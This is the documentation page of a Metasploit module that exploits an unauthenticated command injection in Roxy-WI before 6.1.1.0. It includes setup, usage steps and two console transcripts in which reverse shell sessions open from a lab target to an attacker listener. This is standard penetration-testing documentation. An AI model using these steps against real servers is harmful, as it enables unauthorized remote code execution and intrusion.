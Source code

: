 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.

Roxy-WI is an interface for managing HAProxy, Nginx and Keepalived servers.

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

https://roxy-wi.org/installation.py#manual

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST` to the address of the target Roxy-WI machine.
5. Set `LHOST` to the address of your attacking machine.
8. Run `exploit`
9. Do: `run`
10. You should get a shell as the user running the Roxy-WI server.

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### TARGETURI

The base path to Roxy-WI. The default value is `/`.

## Scenarios

### Roxy-WI 6.1.1.0 Ubuntu 20.04 GNU/Linux (x86_64) - Apache/2.4.52 / Python 3.10.4 / MySQL 8.0.29 With Python Meterpreter Payload

```
msf6 > use exploit/linux/http/roxy_wi_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Executing Automatic for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:56156) at 2022-07-25 18:49:54 +0300

meterpreter > 
```

### Roxy-WI 6.1.1.0 Ubuntu 20.04 GNU/Linux (x86_64) - Apache/2.4.52 / Python 3.10.4 / MySQL 8.0.29 With Linux CMD Payload

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/roxy_wi_exec) > run
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.116:37396) at 2022-07-21 13:50:23 +0300
[+] Exploit successfully executed.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)```
```
